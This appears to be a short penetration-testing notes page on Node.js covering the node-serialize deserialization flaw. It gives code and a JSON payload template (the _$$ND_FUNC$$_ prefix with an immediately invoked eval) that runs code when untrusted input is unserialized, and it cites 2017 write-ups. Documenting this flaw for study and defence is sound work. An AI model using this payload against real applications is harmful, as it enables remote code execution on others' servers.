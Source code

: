 # node.js

node is a technology allowing server based apps to be written in Javascript.  Why?  I get why...but why?

In all seriousness it's pretty cool, but requires a different approach than the standard php based web applications that are so common.

## Serialize/Unserialize

With node, and in all honesty any serialization framework, there can be issues if the application accepts untrusted input.  With `node-serialize` we can use the following code to serialize a custom function object.

```js
var y = {
    rce: function(){eval(<function>)}
}

var serialize = require('node-serialize')
console.log("Serialized: \n" + serialize.serialize(y))
```

If we then modify the output to call the resulting object as a function we get:

```json
{"rce":"_$$ND_FUNC$$_function (){eval(<function>)}()"}
```

Once the object is unserialized, the function will be called.

**References  
**[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)[https://blog.websecurify.com/2017/02/hacking-node-serialize.html](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)

